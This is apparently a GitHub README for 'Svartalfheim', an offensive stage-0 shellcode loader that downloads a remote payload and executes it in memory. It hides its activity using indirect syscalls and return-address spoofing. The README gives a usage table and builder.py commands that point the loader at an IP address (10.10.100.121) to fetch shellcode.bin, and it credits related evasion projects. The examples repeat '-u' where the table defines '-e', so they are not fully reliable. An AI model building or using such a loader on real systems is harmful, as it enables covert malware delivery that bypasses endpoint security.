 # Svartalfheim

Stage 0 Shellcode to Download a Remote Payload and Execute it in Memory

The Nt API calls ```NtAllocateVirtualMemory``` and ```NtProtectVirtualMemory``` are made using indirect syscalls.

```LoadLibraryA``` and WinHTTP calls are performed with return address spoofing.

# Usage

<table>
  <thead>
    <tr>
      <th>Option</th>
      <th>Description</th>
      <th>Required</th>
      <th>Default Value</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-e</td>
      <td>Http endpoint</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-u</td>
      <td>Http uri</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-p</td>
      <td>Http port</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-a</td>
      <td>User agent</td>
      <td>No</td>
      <td>Mozilla/5.0 (Windows NT 10.0; Win64; x64)</td>
    </tr>
    <tr>
      <td>-s</td>
      <td>Use TLS</td>
      <td>No</td>
      <td>Empty</td>
    </tr>
     <tr>
      <td>-v</td>
      <td>View shellcode at C format</td>
      <td>No</td>
      <td>Empty</td>
    </tr>
  </tbody>
</table>

Example :
- python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 80
- python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 443 -s

# Credit

- https://github.com/kyleavery/AceLdr
- https://github.com/realoriginal/titanldr-ng
- https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html
- https://github.com/trickster0/TartarusGate
